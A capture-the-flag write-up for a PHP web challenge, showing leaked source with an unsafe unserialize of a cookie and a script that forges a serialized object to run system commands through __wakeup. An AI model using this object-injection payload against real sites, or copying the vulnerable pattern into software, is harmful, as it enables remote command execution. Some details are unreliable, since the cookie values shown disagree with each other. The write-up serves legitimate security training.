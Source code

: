 # Want More Biscuits

- Level: hard
- Points: 200
- Category: Web

All we know in the begining is that the author of the website loves vim, so immediately we're looking for backups of the source code created automatically by vim. After a few tries, we find one under the name `index.php~`

```php
<?php
// I love PHP.
class User {
        public $userName = 'anonymous';
}

class MyExec {
    public $command = "ls";
    public functin __wakeup()
    {
        system($this->command);
    }
}

$cookie_name = "userCookie";
$u = new User();
$cookie_value = base64_encode(serialize($u));
setcookie($cookie_name, $cookie_value, time() + (86400 * 30), "/"); // 86400 = 1 day

if(!isset($_COOKIE[$cookie_name])) {
        echo "Sorry something went wrong.";
} else {
        $u = unserialize(base64_decode($_COOKIE[$cookie_name]));
}

?>
```
We have an object injection through the cookie because of this line `$u = unserialize(base64_decode($_COOKIE[$cookie_name]));`  and we are looking to trigger the `__wakeup()` method of the `MyExec` class, which means we have to trigger a seralization of an instance of `MyExec` through the injection.

# Solution

We use this script to generate the cookie
```php
<?php
class MyExec {
    public $command = "ls";
    public function __wakeup() {
        system($this->command);
    }
}

print urlencode(base64_encode(serialize(new MyExec())));
?>
```
We now have our cookie injection `Tzo2OiJNeUV4ZWMiOjE6e3M6NzoiY29tbWFuZCI7czoyOiJscyI7fQ%3D%3D1`, we can use it with the python requests library or just send it using a browser extension `requests.get('http://35.225.49.73/wantmorebiscuits/src/', cookies={'userCookie': 'c2VyaWFsaXplKG5ldyBNeUV4ZWMoKSkK'})`
At runtime `$u = unserialize(base64_decode($_COOKIE[$cookie_name]));` will become `$u = unserialize(serialize(new MyExec()));` and the `__wakeup()` method will trigger, executing ls.

![Imgur](https://i.imgur.com/5Fo17hN.png)

We then access the `Flag_FGRRDAKKUGBSKKIUHDLLMNEJDK.txt` directory and find the flag.

![Imgur](https://i.imgur.com/lvkw0HN.png)

# Flag

`FLAG{GOD_DAMN_SERIALIZE}`

